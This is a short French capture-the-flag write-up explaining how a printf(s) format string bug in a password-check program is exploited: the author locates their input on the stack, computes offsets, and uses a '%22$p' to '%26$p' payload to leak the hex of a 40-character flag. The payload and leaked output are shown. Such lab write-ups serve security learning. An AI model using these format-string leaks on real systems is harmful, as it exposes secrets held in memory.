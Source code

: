 Ici des le premier coup d'oeil au code on voit qu'on a à faire à une format string

printf(s) quand on se trompe de password donc on va tout de suite l'exploiter pour passer le strncmp

En bidouillant un peu on voit que mon input si je fais 

AAAA %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p 

est a la 28eme position hors ptr qui est la variable que nous voulons lire se trouve à rbp-0xa0 et mon input se trouve à 
rbp - 0x70 si on fait la soustraction on obtient 48 bits donc on est à 48 d'écart étant donné qu'une adresse c 8 on va allé à 28 (la position de l'input) - (48 / 8 (taille d'une addr)) = 22 donc la variable qu'on cherche doit se trouver à la 22eme position de la format string

Notre flag fait 40 char donc il nous fait afficher 40 / 8 = 5 fois 8 bytes

donc 22 23 24 25 26

--[ Username: %22$p %23$p %24$p %25$p %26$p
--[ Password: dfa
*****************************************
0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d does not have access!


Ensuite on convertit l'hexa inversé (little endian) en string et on obtient le flag